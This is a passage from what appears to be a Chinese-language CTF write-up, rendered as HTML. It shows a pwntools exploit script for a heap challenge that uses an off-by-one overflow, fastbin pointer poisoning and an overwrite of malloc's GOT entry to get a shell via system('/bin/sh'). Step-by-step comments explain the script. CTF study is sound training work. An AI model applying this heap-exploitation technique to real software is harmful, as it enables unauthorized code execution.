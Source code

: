 </span><span class="lit">0x054925ff</span></code></li><li class="L3"><code></code></li><li class="L4"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">40</span><span class="pun">,</span><span class="str">'a'</span><span class="pun">*</span><span class="lit">40</span><span class="pun">)#</span><span class="pln">chunk0</span></code></li><li class="L5"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">16</span><span class="pun">,</span><span class="str">'b\n'</span><span class="pun">)#</span><span class="pln">chunk1</span></code></li><li class="L6"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">96</span><span class="pun">,</span><span class="str">'b\n'</span><span class="pun">)#</span><span class="pln">chunk2</span></code></li><li class="L7"><code></code></li><li class="L8"><code><span class="pln">payload </span><span class="pun">=</span><span class="pln"> </span><span class="str">'a'</span><span class="pun">*</span><span class="lit">40</span><span class="pun">+</span><span class="str">'\x91'</span></code></li><li class="L9"><code><span class="pln">edit</span><span class="pun">(</span><span class="lit">0</span><span class="pun">,</span><span class="lit">41</span><span class="pun">,</span><span class="pln">payload</span><span class="pun">)</span><span class="pln"> </span><span class="com">##利用strlen的特性,写入长度大于malloc(size)的长度,改写chunk1的size为0x90</span></code></li><li class="L0"><code></code></li><li class="L1"><code><span class="kwd">delete</span><span class="pun">(</span><span class="lit">1</span><span class="pun">)</span></code></li><li class="L2"><code><span class="kwd">delete</span><span class="pun">(</span><span class="lit">2</span><span class="pun">)</span></code></li><li class="L3"><code></code></li><li class="L4"><code><span class="pln">payload </span><span class="pun">=</span><span class="pln"> </span><span class="lit">16</span><span class="pun">*</span><span class="str">'a'</span><span class="pun">+</span><span class="pln">p64</span><span class="pun">(</span><span class="lit">0</span><span class="pun">)+</span><span class="pln">p64</span><span class="pun">(</span><span class="lit">0x71</span><span class="pun">)+</span><span class="pln">p64</span><span class="pun">(</span><span class="pln">target_addr</span><span class="pun">)+</span><span class="str">'\n'</span></code></li><li class="L5"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">128</span><span class="pun">,</span><span class="pln">payload</span><span class="pun">)</span><span class="pln"> </span><span class="com">#重新申请chunk1,并借助chunk1将fastbin中的chunk2的fd指针指向目标地址</span></code></li><li class="L6"><code></code></li><li class="L7"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">96</span><span class="pun">,</span><span class="str">'b\n'</span><span class="pun">)#申请</span><span class="pln">fastbin</span><span class="pun">中的</span><span class="pln">chunk2</span></code></li><li class="L8"><code><span class="pln">offset </span><span class="pun">=</span><span class="pln"> ptr_0 </span><span class="pun">-</span><span class="pln"> target_addr</span><span class="pun">-</span><span class="lit">0x10</span></code></li><li class="L9"><code><span class="pln">create</span><span class="pun">(</span><span class="lit">96</span><span class="pun">,</span><span class="str">'a'</span><span class="pun">*</span><span class="pln">offset</span><span class="pun">+</span><span class="pln">p64</span><span class="pun">(</span><span class="pln">malloc_got</span><span class="pun">)+</span><span class="str">'\n'</span><span class="pun">)#申请</span><span class="pln">fastbin</span><span class="pun">中的构造好的目标地址的块,通过改写块的内容，将</span><span class="pln">ptr</span><span class="pun">[</span><span class="lit">0</span><span class="pun">]指向</span><span class="pln">mallocgot</span></code></li><li class="L0"><code><span class="pln">edit</span><span class="pun">(</span><span class="lit">0</span><span class="pun">,</span><span class="lit">8</span><span class="pun">,</span><span class="pln">p64</span><span class="pun">(</span><span class="pln">bin_sh</span><span class="pun">))#通过</span><span class="pln">ptr</span><span class="pun">[</span><span class="lit">0</span><span class="pun">]改写</span><span class="pln">mallocgot</span><span class="pun">表,使其调用</span><span class="pln">malloc</span><span class="pun">时会去执行</span><span class="pln">system</span><span class="pun">(</span><span class="str">'/bin/sh'</span><span class="pun">)</span></code></li><li class="L1"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">sendlineafter</span><span class="pun">(</span><span class="str">": "</span><span class="pun">,</span><span class="str">'1'</span><span class="pun">)##不知道为什么会先出现一次</span><span class="pln">invalid</span><span class="pun">,</span></code></li><li class="L2"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">sendlineafter</span><span class="pun">(</span><span class="str">": "</span><span class="pun">,</span><span class="str">'1'</span><span class="pun">)##再次选择选项</span><span class="lit">1</span><span class="pun">，进入第一个功能分支</span></code></li><li class="L3"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">sendlineafter</span><span class="pun">(</span><span class="str">"?\n"</span><span class="pun">,</span><span class="str">'1'</span><span class="pun">)#调用</span><span class="pln">malloc</span></code></li><li class="L4"><code></code></li><li class="L5"><code><span class="pln">sh</span><span class="pun">.</span><span class="pln">interactive</span><span class="pun">()</span></code></li></ol></pre><h2 id="h2-0x2-misc"><a name="0x2 MISC" class="reference-link"></a><span class="header-link octicon octicon-link"></span>0x2